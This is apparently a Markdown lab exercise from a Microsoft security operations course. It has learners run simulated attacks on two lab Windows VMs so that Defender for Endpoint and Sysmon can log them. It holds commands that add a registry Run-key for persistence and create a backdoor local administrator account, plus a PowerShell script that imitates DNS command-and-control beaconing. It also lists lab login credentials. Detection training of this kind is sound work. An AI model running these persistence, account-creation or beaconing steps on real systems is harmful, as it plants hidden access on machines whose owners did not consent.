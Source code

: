 # Module 7 - Lab 1 - Exercise 5 - Perform attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Confirm any User Account Control prompts that appear.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd temp
```
4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

6. Attack 3 - Copy and run this command:

```
notepad c2.ps1
```
Select **Yes** to create a new file and copy the following PowerShell script into c2.ps1 and select **save**.

**Note** Paste into the Virtual Machine might have a limited length.  Paste this in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad c2.ps1 file.

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)

```

At the command prompt, enter the following, enter the command in each row pressing Enter key after each row:
```
powershell
.\c2.ps1
```
**Note:** You will see resolve errors. This is to be expected.
Let this command/powershell script run in the background. Don't close the window.  The command needs to generate log entries for some hours.  You can proceed to the next task and next exercises while this script runs.

### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

1. Login to WIN2 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *CMD*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd \temp
```

4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

# Proceed to Exercise 6
